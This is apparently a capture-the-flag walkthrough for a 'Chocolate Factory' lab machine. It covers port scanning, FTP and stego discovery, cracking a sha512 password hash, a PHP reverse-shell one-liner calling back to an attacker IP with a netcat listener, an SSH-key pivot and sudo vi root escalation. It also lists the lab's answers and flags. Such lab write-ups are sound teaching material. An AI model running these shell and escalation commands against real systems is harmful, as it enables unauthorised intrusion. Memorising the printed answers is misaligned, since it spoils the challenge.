

# Chocolate Factory

* IP = 10.10.132.98

## Questions/Tasks:

### Task 1(Introduction):

1. Deploy the machine!

*No Answers Needed*

### Task 2(Challenges):

* Start the initial enumeration with Nmap to find all the open ports on the given server.

### Nmap Scan Results:
`nmap -sC -sV -oN nmap_initial $IP -v`
* `-sC` means search with default Nmap scripts; equivalent to `--script=default`
* `-sV` checks for versions on running services
* `-v` tells for verbose output
* `-oN` tells to save the output in a file i.e *nmap_initial*

* Since port 80 is running, let's check out what directories are present using gobuster:

### GoBuster Scan Results:
`gobuster -u "http://IP/" -w common.txt -x txt,html,php`
```bash
=====================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/home.php (Status: 200)

```

* On the other hand let's try ftp login with `Anonymous` and no password<br>

* We find an image there and get it to our local machine:<br>

* Trying some stego enumeration technique on the image we get this result:<br>
<br>
* Check out the [file](./ftp/b64.txt) contents...it's clear from the name though, the contents is in base64.
* Try to decode it...and 😯😯 we find a probable shadow file<br> saved in [output](./ftp/b64.decoded.txt) file<br>

* At the end of the file there is a `sha512` hash of Charlie's password, copy the hash and crack it with Hashcat or John The Ripper...as you wish.
`hashcat -m1800 -a0 hash.txt rockyou.txt -O `
* `-m1800` tells hashcat the hash is sha512 hash
* `-a0` specifies to perform dictionary cracking method
* The copied hash is saved in *hash.txt*
* `-O` to optimize the performance
* You can use any wordlist, it's just an example given as *rockyou.txt*<br>


* The webpage looks like this:<br>

* Login with `charlie` and `cn7824`
* We are brought to */home.php*:<br>

* We can execute commands here, let's try with `ls`<br>

* Try to find the contents of **key_rev_key** with `cat key_rev_key`<br>


1. Enter the key you found!

**Ans-b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='**

2. What is Charlie's password?

**Ans-cn7824**

* In <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a> you can search for some reverse shell commands that we can execute on the page to get a shell:
`php -r '$sock=fsockopen("10.4.50.128",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
* Set up a netcat listener on local machine before executing the above command:
`nc -lnvp 4444`<br>

* This is a *low-privileged* www-data user, so firstly we need to find something to become Charlie.
* Inside Charlie's home folder we found this **teleport** file(which is a rsa private key):<br>

* Copy the file into local machine, save it as id_rsa, change its permissions with `chmod 600 id_rsa` and ssh into the server using:
`ssh -i id_rsa charlie@IP`
* And just like that we get the user flag.

3. change user to charlie

*No Answers Needed*

4. Enter the user flag

**Ans-flag{cd5509042371b34e4826e4838b522d2e}**

* Checking the commands that can be run as sudo with `sudo -l` gives us:<br>

* To escalate privileges with **vi** we can search from <a href="https://gtfobins.github.io/">Gtfobins</a>:
`sudo vi -c ':!/bin/sh' /dev/null`
* And just like that we are root!!😸
* If you want, you can elevate the shell with `/bin/bash -p`.
* In the /root directory there is no root.txt file instead there is a root.py...which seems to decode the root flag for us...<br>

* As the hint says, execute the file with `python` and not `python3`.
* We are prompted for a key...I was stuck here for a bit of time figuring out what could be the key🤔
* But then I remembered there was a previous question about some key...Tried that out and finally found the flag:
<br>
* Whoa what a relief!!😅

5. Enter the root flag

**Ans-flag{cec59161d338fef787fcb4e296b42124}**


* **P.S**-This challenge also can be solved in various other ways for example you can bruteforce the login page to find the password, next you can just `su charlie` and give the password to elevate from *www-data* to *charlie*. The privilege escalation from *charlie* to *root* remains the same though. Try all the possibilities..its really fun😉.
Happy Hacking!!
